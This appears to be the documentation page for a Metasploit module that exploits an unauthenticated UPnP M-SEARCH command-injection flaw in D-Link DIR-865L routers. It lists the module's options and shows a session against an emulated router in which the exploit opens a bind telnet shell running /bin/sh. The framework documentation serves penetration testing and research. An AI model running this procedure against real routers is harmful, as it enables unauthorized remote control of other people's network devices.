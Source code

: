 ```ShellSession
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/bind_busybox_telnetd):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   LOGIN_CMD  /bin/sh          yes       Command telnetd will execute on connect
   LPORT      4444             yes       The listen port
   RHOST      192.168.0.1      no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


View the full module info with the info, or info -d command.
```

## Options
### UPNP_PORT
Port setting where the UpNP discovery service is running, typically port 1900

## Scenarios
###  FirmAE D-Link DIR-865L Router Emulation Unix Command -  cmd/unix/bind_busybox_telnetd
```ShellSession
msf6 exploit(linux/upnp/dlink_msearch_unauth_lan_rce) > check

[*] Checking if 192.168.0.1:80 can be exploited.
[*] 192.168.0.1:80 - The target appears to be vulnerable. Product info: DIR-865L|1.07|A1|mipsle
msf6 exploit(linux/upnp/dlink_msearch_unauth_lan_rce) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:80 can be exploited.
[+] The target appears to be vulnerable. Product info: DIR-865L|1.07|A1|mipsle
[*] Executing Unix Command for cmd/unix/bind_busybox_telnetd
[*] Started bind TCP handler against 192.168.0.1:4444
[*] Command shell session 1 opened (192.168.0.2:42349 -> 192.168.0.1:4444) at 2023-10-17 18:35:36 +0000

Shell Banner:
_!_

 # uname -a
uname -a
Linux dlinkrouter 4.1.17+ #28 Sat Oct 31 17:56:39 KST 2020 mips GNU/Linux
 # hostname
hostname
dlinkrouter
 #
```